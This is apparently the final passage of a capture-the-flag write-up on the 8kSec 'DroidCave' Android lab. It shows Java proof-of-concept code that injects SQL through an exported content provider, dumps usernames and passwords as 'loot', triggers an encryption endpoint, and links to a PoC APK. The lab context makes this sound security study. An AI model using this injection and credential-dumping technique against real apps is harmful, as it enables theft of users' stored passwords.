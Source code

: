 ```java
        // sqli  
        String sql =  
                "SELECT\n" +  
                        " id,name,username,CAST(password AS TEXT) AS pass\n" +  
                        "FROM\n" +  
                        " passwords";  
        Uri lootUri = Uri.parse(  
                "content://com.eightksec.droidcave.provider/execute_sql/" + sql  
        );  
  
        StringBuilder loot = new StringBuilder();  
        try (Cursor c = cr.query(lootUri, null, null, null, null)) {  
            if (c != null) {  
                int id = c.getColumnIndex("id");  
                int n  = c.getColumnIndex("name");  
                int u  = c.getColumnIndex("username");  
                int p  = c.getColumnIndex("pass");  
                while (c.moveToNext()) {  
                    loot.append(c.getInt(id)).append('|')  
                            .append(c.getString(n)).append('|')  
                            .append(c.getString(u)).append('|')  
                            .append(c.getString(p)).append('\n');  
                }  
            }        }  
        Log.i(TAG, "\n" + loot);  
  
        // enable encryption  
        cr.query(  
                Uri.parse("content://com.eightksec.droidcave.provider/enable_encryption"),  
                null, null, null, null  
        );  
    }  
}
```

![[8ksec-DroidCave_2.png]]

**Download PoC**: https:///lautarovculic.com/my_files/DroidExploit.apk

I hope you found it useful (: